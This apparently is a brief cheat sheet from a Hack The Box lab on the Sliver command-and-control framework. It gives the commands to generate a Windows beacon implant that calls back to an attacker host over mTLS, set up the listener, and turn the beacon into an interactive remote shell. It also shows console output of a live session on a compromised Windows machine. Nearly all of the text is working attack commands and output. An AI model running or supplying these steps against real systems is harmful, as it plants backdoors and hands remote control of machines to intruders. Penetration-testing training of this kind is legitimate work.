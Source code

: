 # Sliver C2  
### Generate a beacon  
sliver > `generate beacon --mtls 10.10.16.20:80 --save /home/kali/HTB/lab/bc1.exe`  
  
### Setup the listener  
sliver > `mtls --lhost 10.10.16.20 --lport 80`  

### Navigate    
sliver > `jobs`  
sliver > `use beacons`   
Select the beacon using arrows to move    
  
Once in the beacon shell, it is possible to turn the beacon shell into a session (interactive) shell with the following command :   
sliver (SOLID_TINDERBOX) > `interactive`  
  
[] Using beacon's active C2 endpoint: mtls://10.10.16.20:80  
[] Tasked beacon SOLID_TINDERBOX (da51bf52)    
[] Session 437faed6 SOLID_TINDERBOX - 10.10.110.10:51443 (cywebdw) - windows/amd64 - Wed, 09 Aug 2023 13:16:42 EDT      
    
The new session appears :    
sliver (SOLID_TINDERBOX) > `sessions`     
| ID       | Transport | Remote Address     | Hostname | Username                      | Operating System | Health  |
| -------- | --------- | ------------------ | -------- | ----------------------------- | ---------------- | ------- |
| 437faed6 | mtls      | 10.10.110.10:51443 | cywebdw  | NT AUTHORITY\\NETWORK SERVICE | windows/amd64    | [ALIVE] | 
  
sliver (SOLID_TINDERBOX) > use 437faed6  
  
Now we got an interactive session shell.    





